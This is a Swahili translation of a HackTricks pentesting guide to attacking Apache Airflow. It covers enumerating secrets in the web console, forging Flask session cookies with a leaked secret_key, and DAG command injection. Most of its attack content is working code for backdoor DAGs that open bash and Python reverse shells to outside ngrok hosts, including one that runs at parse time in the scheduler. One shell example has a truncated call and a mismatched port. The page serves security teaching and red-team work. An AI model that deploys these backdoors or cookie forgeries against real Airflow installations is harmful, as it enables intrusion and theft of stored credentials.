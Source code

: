 # Usalama wa Apache Airflow

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **nifuata** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

[**Apache Airflow**](https://airflow.apache.org) hutumika kama jukwaa la **kuorodhesha na kupanga mabomba au mifumo ya data**. Neno "kuorodhesha" katika muktadha wa mabomba ya data inamaanisha mchakato wa kupanga, kuratibu, na kusimamia mifumo ya data yenye utata inayotokana na vyanzo mbalimbali. Lengo kuu la mabomba haya ya data yaliyoorodheshwa ni kutoa seti za data zilizosindika na zinazoweza kutumiwa. Seti hizi za data hutumiwa sana na programu nyingi, ikiwa ni pamoja na zana za ujasusi wa biashara, sayansi ya data na mifano ya ujifunzaji wa mashine, ambayo yote ni msingi wa utendaji wa programu za data kubwa.

Kimsingi, Apache Airflow itakuruhusu **kupanga utekelezaji wa nambari wakati kitu** (tukio, cron) **kinapotokea**.

## Maabara ya Kienyeji

### Docker-Compose

Unaweza kutumia **faili ya usanidi ya docker-compose kutoka** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) kuzindua mazingira kamili ya docker ya apache airflow. (Ikiwa uko kwenye MacOS hakikisha kumpa angalau 6GB ya RAM kwa VM ya docker).

### Minikube

Njia moja rahisi ya **kuendesha apache airflow** ni kuendesha **na minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Mipangilio ya Airflow

Airflow inaweza kuhifadhi **taarifa nyeti** katika mipangilio yake au unaweza kupata mipangilio dhaifu:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Kabla ya kuanza kushambulia Airflow unapaswa kuelewa **jinsi ruhusa zinavyofanya kazi**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Mashambulizi

### Uorodheshaji wa Konsoli ya Wavuti

Ikiwa una **upatikanaji wa konsoli ya wavuti** unaweza kupata au kufikia baadhi au yote ya taarifa zifuatazo:

* **Vipimo** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* **Uunganisho** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* Pata kwenye `http://<airflow>/connection/list/`
* [**Mipangilio**](./#airflow-configuration) (Taarifa nyeti kama **`secret_key`** na nywila zinaweza kuhifadhiwa hapa)
* Orodhesha **watumiaji na majukumu**
* **Msimbo wa kila DAG** (ambao unaweza kuwa na taarifa za kuvutia)

### Kupata Thamani za Vipimo

Vipimo vinaweza kuhifadhiwa kwenye Airflow ili **DAGs** ziweze **kufikia** thamani zao. Ni sawa na siri za majukwaa mengine. Ikiwa una **ruhusa za kutosha** unaweza kuzipata kwenye GUI kwenye `http://<airflow>/variable/list/`.\
Kwa chaguo-msingi, Airflow itaonyesha thamani ya kipimo kwenye GUI, hata hivyo, kulingana na [**hii**](https://marclamberti.com/blog/variables-with-apache-airflow/) inawezekana kuweka **orodha ya vipimo** ambavyo **thamani** yake itaonekana kama **nyota** kwenye **GUI**.

![](<../../.gitbook/assets/image (79).png>)

Hata hivyo, **thamani** hizi bado zinaweza **kupatikana** kupitia **CLI** (unahitaji kupata DB), utekelezaji wa **DAG wa kiholela**, **API** kupitia kufikia mwisho wa vipimo (API inahitaji kuwa imewezeshwa), na **hata GUI yenyewe!**\
Kupata thamani hizo kutoka kwenye GUI chagua **vipimo** unavyotaka kufikia na **bonyeza Matendo -> Kuuza**.\
Njia nyingine ni kufanya **brute force** kwa **thamani iliyofichwa** kwa kutumia **kuchuja utafutaji** mpaka upate:

![](<../../.gitbook/assets/image (30).png>)

### Kupandisha Hadhi ya Mamlaka

Ikiwa mipangilio ya **`expose_config`** imewekwa kuwa **Sahihi**, kutoka kwa **jukumu la Mtumiaji** na **juu yake** wanaweza **kusoma** **mipangilio kwenye wavuti**. Katika mipangilio hii, **`secret_key`** inaonekana, ambayo inamaanisha mtumiaji yeyote mwenye hii inayofaa wanaweza **kuunda kuki iliyosainiwa yao wenyewe kujifanya kuwa akaunti ya mtumiaji mwingine yeyote**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Mlango wa Nyuma wa DAG (RCE katika mfanyakazi wa Airflow)

Ikiwa una **upatikanaji wa kuandika** mahali ambapo **DAGs zimehifadhiwa**, unaweza tu **kuunda moja** ambayo itakutumia **shell ya kurudi.**\
Tafadhali kumbuka kuwa shell hii ya kurudi itatekelezwa ndani ya **kontena ya mfanyakazi wa airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Mlango wa Nyuma wa DAG (RCE katika Airflow scheduler)

Ikiwa unaweka kitu kiwe **kitekelezwe katika mizizi ya nambari**, wakati wa kuandika hii, itatekelezwa na **scheduler** baada ya sekunde chache baada ya kuwekwa ndani ya folda ya DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Uundaji wa DAG

Ikiwa utafanikiwa **kuambukiza kifaa ndani ya kikundi cha DAG**, unaweza kuunda **maandishi mapya ya DAGs** katika folda ya `dags/` na yatakuwa **nakiliwa katika vifaa vingine** ndani ya kikundi cha DAG.

### Uingizaji wa Msimbo wa DAG

Unapotekeleza DAG kutoka kwa GUI unaweza **kupitisha hoja** kwake.\
Kwa hivyo, ikiwa DAG haijatengenezwa ipasavyo inaweza kuwa **dhaifu kwa Uingizaji wa Amri.**\
Hapo ndipo ilipotokea katika CVE hii: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Kila unachohitaji kujua kuanza **kutafuta uingizaji wa amri katika DAGs** ni kwamba **parameta** zina **fikiwa** na msimbo **`dag_run.conf.get("jina_la_param")`**.

Zaidi ya hayo, dhaifu hiyo hiyo inaweza kutokea na **vibadilishaji** (kumbuka kwamba ukiwa na mamlaka ya kutosha unaweza **kudhibiti thamani ya vibadilishaji** katika GUI). Vibadilishaji vinapata **kwa**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ikiwa zinatumika kwa mfano ndani ya amri ya bash, unaweza kufanya utekelezaji wa amri.

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **nifuata** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
